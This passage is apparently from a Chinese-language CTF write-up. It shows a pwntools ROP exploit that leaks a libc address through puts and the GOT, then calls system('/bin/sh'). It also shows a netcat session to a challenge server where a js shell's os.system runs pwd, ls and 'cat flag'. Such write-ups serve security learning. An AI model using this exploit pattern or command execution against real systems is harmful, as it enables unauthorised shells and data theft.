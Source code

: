 ```py
payload = "a"*0x18 + p64(pop) + p64(pop_rdi) + p64(write_got) + p64(puts_plt) + p64(0x4007CD)
#0x18+pop(8个字节)用于复制（下一个函数）后填充第二个栈到返回地址，然后将write的got表pop到rdi，用puts输出，返回到main函数的开头，设置环境
p.sendline(payload)

#write_addr = p.recvuntil("\\")
print p.recvuntil("\x40")
write_addr = u64(p.recv(6).ljust(8,'\00'))
write_addr = int(write_addr)
print write_addr
base = write_addr - write_off
sys = base + sys_off
binsh = binsh_off + base

payload2 = "a"*0x18 + p64(pop) + p64(pop_rdi) + p64(binsh) + p64(sys)

p.recv()
p.sendline(payload2)

p.interactive()
```
好像服务器上和本地程序用的libc又不一样...所以连接完远程服务器后再获得一次write的got表，然后找到libc版本


主要学到了这个方法：
```py
write_addr = u64(p.recv(6).ljust(8,'\00'))
```
将接收到的数字左对齐，并用'\00'填充为8位，

参考：https://muzibing.github.io/2020/06/12/2020.06.12%EF%BC%88125%EF%BC%89
## monkey


考察js shell
```js
pluto@pluto-virtual-machine:~/Desktop$ nc 220.249.52.133 56451
js> os.system("pwd")
os.system("pwd")
/home/ctf
js> os.system("ls")
os.system("ls")
bin
dev
flag
js
lib
lib32
lib64
libnspr4.so
libplc4.so
libplds4.so
run.sh
js> os.system("cat flag")
os.system("cat flag")
cyberpeace{xxxxxxx}
```



## 